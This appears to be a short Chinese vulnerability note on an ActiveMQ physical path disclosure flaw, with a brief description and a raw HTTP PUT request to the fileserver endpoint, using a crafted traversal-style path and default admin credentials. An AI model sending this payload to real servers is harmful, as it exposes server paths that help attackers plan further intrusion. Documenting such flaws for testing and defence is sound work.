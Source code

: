 <h1>ActiveMQ物理路径泄漏漏洞</h1>
<h2>一、漏洞简介</h2>
<p>ActiveMQ默认开启PUT请求，当开启PUT时，构造好Payload(即不存在的目录)，Response会返回相应的物理路径信息</p>
<h2>二、漏洞影响</h2>
<h2>三、复现过程</h2>
<pre><code>Request Raw:
PUT /fileserver/a../../%08/..%08/.%08/%08 HTTP/1.1
Host: 192.168.197.25:8161
Authorization: Basic YWRtaW46YWRtaW4=
Content-Length: 4
</code></pre>
